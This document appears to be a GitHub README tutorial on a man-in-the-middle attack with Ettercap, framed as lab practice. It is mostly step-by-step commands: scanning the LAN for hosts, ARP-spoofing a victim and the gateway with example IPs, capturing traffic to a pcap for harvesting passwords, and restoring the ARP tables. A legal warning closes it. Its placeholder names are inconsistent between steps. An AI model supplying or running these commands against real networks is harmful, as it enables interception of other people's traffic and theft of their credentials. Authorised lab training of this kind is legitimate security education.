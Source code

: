 # ⚠️ MITM Attack with Ettercap (CLI Mode)

> This guide demonstrates how to perform a Man-in-the-Middle (MITM) attack using `ettercap` in **command-line mode**, for **educational purposes** in a **controlled lab environment**.

---

## 📦 Requirements

- OS: Kali Linux, Parrot OS, or any Linux distro with `ettercap-text-only`
- Tools: Ettercap CLI, Netdiscover or Nmap
- Setup:
  - Attacker: Kali Linux
  - Victim: Any host on the same LAN
  - Gateway: Your router

---

## 📥 Installation

```bash
sudo apt update
sudo apt install ettercap-text-only netdiscover nmap
```

##🌐 Step 1: Identify Network Interface
```bash
ip a
```
Example interface: eth0, wlan0, etc.

---
##🔍 Step 2: Scan for Hosts
###Option 1: Netdiscover
```bash
sudo netdiscover -i eth0
```

---
###Option 2: Nmap
```bash
sudo nmap -sn 192.168.0.0/24
```
Note the IPs of:

Victim device → VICTIM_IP

Victim → VICTIM_IP_2

Your interface → INTERFACE

##🧪 Step 3: Perform ARP Spoofing (MITM)
```bash
sudo ettercap -T -M arp:remote /VICTIM_IP_1// /VICTIM_IP_2// -i INTERFACE
```

##Example:
```bash
sudo ettercap -T -M arp:remote /192.168.0.105// /192.168.0.1// -i eth0

```
---
## :Flags Explained:

-T: Text (CLI) mode

-M arp:remote: ARP spoofing for both directions

/target1/ /target2/: Victim and Gateway IPs

-i: Interface to use

---
##🔐 Step 4: Capture Passwords (Optional)
```bash
sudo ettercap -T -M arp:remote -w mitm_log.pcap /VICTIM_IP// /GATEWAY_IP// -i INTERFACE
```
##Open the log with Wireshark:

```bash
wireshark mitm_log.pcap
```

---
##🔚 Step 5: Stop the Attack
To quit Ettercap, press q.

To restore ARP tables manually:
```bash
sudo ettercap -T -P restore_arp -i INTERFACE
```
---

##⚠️ Legal Warning
This guide is provided for educational and authorized penetration testing only.
Unauthorized access to networks or data is illegal and punishable by law.
Always get written permission before testing any network.

---

##📌 Author

Created by:Nahid Chowdury- CSE, DU

For: Ethical Hacking / Cybersecurity Lab Practice



